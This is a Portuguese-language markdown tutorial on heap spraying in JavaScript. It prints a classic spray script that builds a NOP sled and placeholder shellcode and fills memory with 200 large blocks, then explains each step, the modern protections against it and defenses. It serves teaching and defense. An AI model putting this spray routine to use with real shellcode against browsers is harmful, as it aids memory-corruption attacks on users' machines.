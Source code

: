 ```markdown
# Exemplo Prático de Heap Spraying em JavaScript

Heap spraying é uma técnica de exploração utilizada para aumentar a probabilidade de execução de código malicioso após a exploração de uma vulnerabilidade de corrupção de memória, como um buffer overflow ou use-after-free. Em ambientes modernos, como navegadores web, o heap spraying é frequentemente realizado usando JavaScript devido à sua capacidade de manipular grandes blocos de memória de forma dinâmica.

Neste exemplo, vamos demonstrar como o heap spraying pode ser realizado em JavaScript, explicando cada etapa do processo e destacando os riscos e as defesas modernas.

---

## O que é Heap Spraying?

Heap spraying consiste em preencher a memória heap de um processo com padrões específicos de dados (normalmente shellcode ou instruções maliciosas), de modo que, ao explorar uma vulnerabilidade que permita o desvio do fluxo de execução, seja mais provável que o controle seja transferido para o código injetado.

## Contexto de Uso

Historicamente, heap spraying foi amplamente utilizado em ataques contra navegadores, especialmente Internet Explorer, para explorar vulnerabilidades de corrupção de memória. Embora as proteções modernas (como ASLR e DEP) tenham dificultado a exploração, entender a técnica é fundamental para profissionais de segurança.

---

## Exemplo Prático: Heap Spraying em JavaScript

### 1. Objetivo

O objetivo do heap spraying é alocar grandes blocos de memória preenchidos com um payload (por exemplo, shellcode) e um "NOP sled" (sequência de instruções inofensivas que levam ao shellcode), aumentando a chance de execução do código malicioso após a exploração de uma vulnerabilidade.

### 2. Estrutura do Código

Abaixo está um exemplo simplificado de heap spraying em JavaScript, como poderia ser usado em navegadores vulneráveis:

```javascript
// Shellcode fictício representado em Unicode (exemplo didático)
var shellcode = unescape("%u9090%u9090%u9090%u9090%u4141%u4242%u4343%u4444");

// NOP sled (sequência de instruções NOP, aqui representadas por %u9090)
var nops = unescape("%u9090%u9090");

// Tamanho do bloco a ser alocado
var blockSize = 0x40000; // 256 KB

// Preenche o bloco com NOP sled seguido do shellcode
while (nops.length < blockSize / 2) {
    nops += nops;
}
var sprayBlock = nops.substring(0, blockSize / 2 - shellcode.length) + shellcode;

// Número de blocos a serem alocados (ajustar conforme necessário)
var numBlocks = 200;

// Array para manter as referências e evitar coleta de lixo
var memory = new Array();

for (var i = 0; i < numBlocks; i++) {
    memory[i] = sprayBlock;
}
```

### 3. Explicação do Código

- **Shellcode**: No exemplo, usamos um shellcode fictício. Em ataques reais, seria um payload que executa uma ação maliciosa.
- **NOP sled**: Uma sequência de instruções NOP (`%u9090` em Unicode, equivalente ao NOP x86), que serve para aumentar a área de aterrissagem do desvio de execução.
- **Alocação de memória**: O script cria vários blocos grandes preenchidos com o NOP sled e o shellcode, armazenando-os em um array para evitar que o garbage collector do JavaScript libere a memória.
- **Spray**: Ao alocar centenas de blocos, o atacante aumenta a probabilidade de que um ponteiro corrompido aponte para uma área controlada pelo atacante.

### 4. Riscos e Limitações

- **Ambientes modernos**: Navegadores atuais implementam proteções como ASLR (Address Space Layout Randomization) e DEP (Data Execution Prevention), que dificultam a execução de código injetado via heap spraying.
- **Sandboxing**: JavaScript moderno é executado em sandboxes, limitando o impacto de ataques.
- **Detecção**: Técnicas de heap spraying podem ser detectadas por soluções de segurança baseadas em comportamento.

### 5. Defesas e Mitigações

- **Atualização de software**: Manter navegadores e plugins sempre atualizados.
- **Proteções de memória**: ASLR, DEP e Control Flow Guard (CFG) dificultam a exploração.
- **Políticas de segurança**: Content Security Policy (CSP) e Same-Origin Policy reduzem a superfície de ataque.
- **Análise de comportamento**: Ferramentas de segurança podem identificar padrões de heap spraying.

---

## Conclusão

Heap spraying em JavaScript foi uma técnica amplamente explorada em ataques contra navegadores, especialmente em épocas anteriores à adoção de proteções modernas. Embora menos eficaz atualmente, compreender seu funcionamento é essencial para profissionais de segurança, desenvolvedores e pesquisadores, pois novas variantes e técnicas continuam a surgir. A melhor defesa é a combinação de práticas seguras de desenvolvimento, atualização constante de software e uso de mecanismos de proteção de memória.

---

**Referências:**
- [OWASP: Heap Spraying](https://owasp.org/www-community/attacks/Heap_Spraying)
- [Microsoft: Understanding Heap Spraying Attacks](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/heap-spraying-attack)
- [Google Project Zero: Modern Exploitation Techniques](https://googleprojectzero.blogspot.com/)
```
